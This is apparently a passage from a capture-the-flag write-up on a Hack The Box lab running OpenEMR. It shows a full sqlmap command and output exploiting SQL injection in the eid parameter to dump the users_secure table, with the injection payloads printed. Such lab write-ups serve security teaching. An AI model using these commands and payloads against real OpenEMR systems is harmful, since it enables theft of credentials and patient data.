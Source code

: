 From the discovery process, we noticed that OpenEmr is being used and research on OpenEmr leads us to CVE-2018-15152. Before we use the exploit, we will first have to look for the credential information that allows us to login to the website. Navigating to ```/portal/add_edit_events_user.php```, we realize that this page is vulnerable to SQL injection.

Using SQLMap, we were able to get the vulnerable site to dump out an ecnrypted password for the user ```openemr_admin```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap --cookie="PHPSESSID=mnf7afl4jmtovagi5p9p6jek63; OpenEMR=0k56dt9dj1qvcaopa9s2o804e7" --url=http://hms.htb/portal/add_edit_event_user.php?eid=1 --tables -D openemr -T users_secure --dump             2 ⚙
        ___
       __H__                                                                                                                                                                                                        
 ___ ___[']_____ ___ ___  {1.5.5#stable}                                                                                                                                                                            
|_ -| . ["]     | .'| . |                                                                                                                                                                                           
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                           
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:18:37 /2021-08-22/

[13:18:37] [INFO] resuming back-end DBMS 'mysql' 
[13:18:37] [INFO] testing connection to the target URL
[13:18:38] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (4734=4734) THEN 1 ELSE (SELECT 3571 UNION SELECT 7255) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x7171766a71,(SELECT (ELT(1610=1610,1))),0x717a707871),1610)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 5144 FROM (SELECT(SLEEP(5)))RrNB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7171766a71,0x53474d4e7a6d6e57566c437a42576c726c62704a7267487849435667436d684d4d4d525941546858,0x717a707871),NULL-- -
---
[13:18:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.6
```